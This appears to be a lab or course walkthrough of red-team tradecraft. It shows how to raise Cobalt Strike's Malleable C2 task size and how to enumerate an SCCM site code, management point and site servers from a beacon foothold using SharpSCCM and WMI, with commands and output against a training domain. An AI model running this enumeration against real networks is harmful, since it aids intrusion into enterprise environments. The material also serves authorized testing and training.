 The latter option is quite straightforward because it can be controlled with the `tasks_max_size` setting in Malleable C2 - the downside is that it cannot be applied to existing beacons.

To double the task size, add `set tasks_max_size "2097152";` to the top of your C2 profile.

This can be found in `/opt/cobaltstrike/profiles/default.profile`.

{% hint style="warning" %}
**You will notice significantly more lag within the CS client when executing tasks with large artifacts.**&#x20;

**You must also remember to restart the team server and re-generate your payloads after making changes to the Malleable C2 profile.**
{% endhint %}

Given a foothold on a machine, we can begin by finding the management point and site code that it is linked to.

**This does not require and special privileges in the domain, in SCCM or on the endpoint:**

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner

-----------------------------------
CurrentManagementPoint: scm-1.cyberbotic.io
Name: SMS:S01
-----------------------------------
[+] Completed execution in 00:00:00.2733939
```

**This enumeration uses WMI under the hood, which could be done manually:**

```
beacon> powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl

Name                   : SMS:S01
CurrentManagementPoint : scm-1.cyberbotic.io
```

**We can also check the DACL on the&#x20;**<mark style="color:yellow;">**`CN=System Management`**</mark>**&#x20;container in AD for machines that have Full Control over it (as this is a pre-requisite of SCCM setup in a domain):**

```
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner

[!] Found 1 computer account(s) with GenericAll permission on the System Management container:

      CYBER\SCM-1$

[+] These systems are likely to be ConfigMgr site servers
[+] Completed execution in 00:00:00.4974129
```
